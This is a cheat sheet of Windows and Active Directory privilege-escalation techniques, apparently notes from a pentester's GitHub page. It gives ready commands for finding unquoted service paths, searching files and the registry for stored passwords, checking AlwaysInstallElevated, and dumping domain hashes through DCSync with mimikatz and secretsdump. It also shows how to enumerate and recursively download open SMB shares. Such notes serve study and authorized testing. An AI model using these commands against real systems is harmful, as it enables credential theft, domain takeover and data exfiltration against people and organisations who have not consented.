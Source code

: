 # Windows Privilege Escalation

__Privilege Escalation Notes for Active Directory__

## Unquoted Service Paths

It is possible to escalate privileges if there's a running service, of which the service binary which is running is not quoted. Not wrapping binary paths can allow us to place a malicious binary in place of the path which later can get executed at service restart.

__Scenario__

There's a program running in windows system:

C:\Applications\Web Server\webserver.exe

In this case, we can place a malicious binary at C:\Applications\Web.exe which will get executed as the previous path isn't enclosed in quotes, windows will execute the binary before the whitespace " ".


__Looking for unquoted service paths__

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
PowerSploit module:

```powershell
Get-ServiceUnquoted
```
---

## Cleartext passwords

Administrators/users might save sensitive information like login credentials across the machines, we can try looking for them.

```batch
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

# Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*

# Finding credentials in windows registry

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

# Putty clear text proxy credentials
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
```
---
## AlwaysInstallElevated

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. However, granting users this ability is a security concern because it is too easy to abuse this privilege.   For this to occur, there are two registry entries that have to be set to the value of “1” on the machine:

```batch
# Querying windows registry for "AlwaysInstallElevated"

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
---
## DCSync Attack

This attack allows an attacker to mimic as Domain Controller and dump hashes. We must have foothold of a user with "Domain Replication Service Remote Protocol" privileges to perform this attack.

```powershell
# Using mimikatz to perform DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt /domain:domain-corp.local"'

# Using "Invoke-DCSync" PS module (https://gist.github.com/monoxgas/9d238accd969550136db)
Invoke-DCSync -PWDumpFormat
```

```bash
# Using secretsdump.py to perform DCSync Attack
secretsdump.py -just-dc <user>:<password>@<ipaddress>
```
---
## Open Shares

There can be open shares in the network which can expose sensitive information.

```bash
# Null Session
smbclient -I 10.10.10.100 -L ACTIVE -N -U ""

# Guest login
smbclient -I 10.10.10.100 --user "invalidUser"
```

Downloading a folder recursively

```bash
smbclient //10.0.0.1/Share --user=User123
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> lcd '/path/to/go/'
smb: \> mget *
```
---
